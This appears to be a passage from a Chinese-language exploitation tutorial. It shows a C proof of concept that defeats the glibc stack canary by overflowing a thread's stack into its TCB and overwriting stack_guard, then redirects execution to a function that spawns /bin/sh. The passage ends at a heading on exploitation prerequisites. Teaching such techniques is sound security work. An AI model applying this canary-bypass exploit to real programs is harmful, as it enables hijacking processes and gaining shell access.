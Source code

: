举个例子

```plain
void pwn_payload() {
    char *argv[2] = {"/bin/sh", 0};
    execve(argv[0], argv, 0);
}

int fixup = 0;
void * first(void *x)
{
    unsigned long *addr;
    arch_prctl(ARCH_GET_FS, &addr);
    printf("thread FS %p\n", addr);
    printf("cookie thread: 0x%lx\n", addr[5]);
    unsigned long * frame = __builtin_frame_address(0);
    printf("stack_cookie addr %p \n", &frame[-1]);
    printf("diff : %lx\n", (char*)addr - (char*)&frame[-1]); 
    unsigned long len =(unsigned long)( (char*)addr - (char*)&frame[-1]) + 
fixup;
    // example of exploitation
    // prepare exploit
    void *exploit = malloc(len);
    memset(exploit, 0x41, len);
    void *ptr = &pwn_payload;
    memcpy((char*)exploit + 16, &ptr, 8);
    // exact stack-buffer overflow example
    memcpy(&frame[-1], exploit, len);
    return 0;
}

int main(int argc, char **argv, char **envp)
{
    pthread_t one;
    unsigned long *addr;
    void *val;
    arch_prctl(ARCH_GET_FS, &addr);
    if (argc > 1)
        fixup = 0x30;
    printf("main FS %p\n", addr);
    printf("cookie main: 0x%lx\n", addr[5]);
    pthread_create(&one, NULL, &first, 0);
    pthread_join(one,&val);
    return 0;
}
```

```plain
在当前栈帧和 TCB 结构之间的距离等于 0x7b8，小于一页，只要溢出的字节够多，就可以把 TCB 中的 tcbhead_t.stack_guard 覆盖掉。
```

### 利用前提
